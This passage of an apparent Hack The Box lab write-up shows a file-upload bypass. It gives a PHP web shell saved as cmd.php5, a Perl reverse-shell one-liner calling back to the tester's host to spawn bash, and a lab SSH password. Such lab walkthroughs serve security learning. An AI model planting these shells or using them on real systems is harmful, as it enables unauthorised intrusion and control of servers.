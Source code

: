 
The script takes in a file extension as argument. I'm using GNU Parallel to speed things up like so.


{% include image.html image_alt="33494eeb.png" image_src="/6398fd14-7eb4-4724-b98d-fb6ab6907574/33494eeb.png" %}


You can see that these are the whitelisted file extensions and only `.php5` is executable. The file `info` contains the following PHP code:

```
<?php phpinfo(); ?>
```


{% include image.html image_alt="9ec9d39a.png" image_src="/6398fd14-7eb4-4724-b98d-fb6ab6907574/9ec9d39a.png" %}


With that in mind, we can craft another file with the following PHP code and save it as `cmd.php5`. After uploading, the file will allow us to execute remote commands.

```
<?php echo shell_exec($_GET[0]); ?>
```


{% include image.html image_alt="fb19a5ac.png" image_src="/6398fd14-7eb4-4724-b98d-fb6ab6907574/fb19a5ac.png" %}


Perfect.

## Low-Privilege Shell

We can now execute a reverse shell. I always go for a Perl reverse shell simply because it's more likely to be available than any other interpreted languages such as Python.

```
perl -e 'use Socket;$i="10.10.14.109";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/bash -i");};'
```

It's best to urlencode the code to prevent complications because we are entering it on the browser's address bar.


{% include image.html image_alt="7af10ac4.png" image_src="/6398fd14-7eb4-4724-b98d-fb6ab6907574/7af10ac4.png" %}


Awesome. We have shell. Let's go through the usual process to [upgrade](https://blog.ropnop.com/upgrading-simple-shells-to-fully-interactive-ttys/) the shell to full TTY.

During enumeration of `www-data`'s account, I found the password (`Dav3therav3123`) to `dave`'s SSH account and other pertinent information at `/home/dave/Desktop`.


{% include image.html image_alt="1f6b2197.png" image_src="/6398fd14-7eb4-4724-b98d-fb6ab6907574/1f6b2197.png" %}


[1]: https://www.hackthebox.eu/home/machines/profile/161
[2]: https://www.hackthebox.eu/home/users/profile/5621
[3]: https://www.hackthebox.eu/